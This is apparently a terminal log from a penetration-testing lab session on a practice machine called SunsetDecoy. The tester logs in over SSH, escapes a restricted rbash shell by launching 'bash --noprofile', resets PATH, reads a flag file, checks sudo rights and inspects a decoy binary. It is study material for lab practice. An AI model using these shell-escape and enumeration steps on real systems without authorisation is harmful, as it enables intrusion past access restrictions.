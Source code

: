 
root@kali:/OSCPv3/offsec_pg/SunsetDecoy# ssh 296640a3b825115a47b68fc44501c828@192.168.131.85
296640a3b825115a47b68fc44501c8@192.168.131.85's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
-rbash: whoami: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ less
-rbash: less: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ftp
-rbash: ftp: command not found



root@kali:/OSCPv3/offsec_pg/SunsetDecoy# ssh 296640a3b825115a47b68fc44501c828@192.168.131.85 -t "bash --noprofile"
296640a3b825115a47b68fc44501c8@192.168.131.85's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
bash: whoami: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ less
bash: less: command not found


296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  local.txt  ls  mkdir  user.txt

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /bin/cat local.txt 
f539d346fd63f9aeda807814485edca1


296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /bin/sudo -l
sudo: unable to resolve host 60832e9f188106ec5bcc4eb7709ce592: Name or service not known
[sudo] password for 296640a3b825115a47b68fc44501c828: 
Sorry, user 296640a3b825115a47b68fc44501c828 may not run sudo on 60832e9f188106ec5bcc4eb7709ce592.

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH="/bin:$PATH"
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
296640a3b825115a47b68fc44501c828
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ 



296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ more honeypot.decoy

******** honeypot.decoy: Not a text file ********

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  local.txt  ls  mkdir  user.txt
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ file honeypot.decoy
honeypot.decoy: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3c2d7512e6f628f98adb080abd295115cc9e0c2f, not stripped
